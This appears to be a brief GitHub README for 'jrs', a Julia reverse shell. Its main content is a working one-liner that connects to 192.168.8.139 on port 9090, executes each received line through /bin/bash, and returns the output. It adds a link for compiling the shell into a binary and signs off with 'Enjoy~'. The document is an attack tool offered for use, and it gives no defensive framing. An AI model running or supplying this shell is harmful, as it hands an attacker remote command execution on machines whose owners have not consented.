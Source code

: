 # jrs

julia reverse shell

https://julialang.org/

```
julia --eval 'using Sockets;c = connect("192.168.8.139", 9090);while true;cmd = readline(c, keep=true);try;println(c, read(`/bin/bash -c $cmd`, String));catch e;print(c, e);end;end'
```

**Compile**

https://github.com/JuliaLang/PackageCompiler.jl

Enjoy~
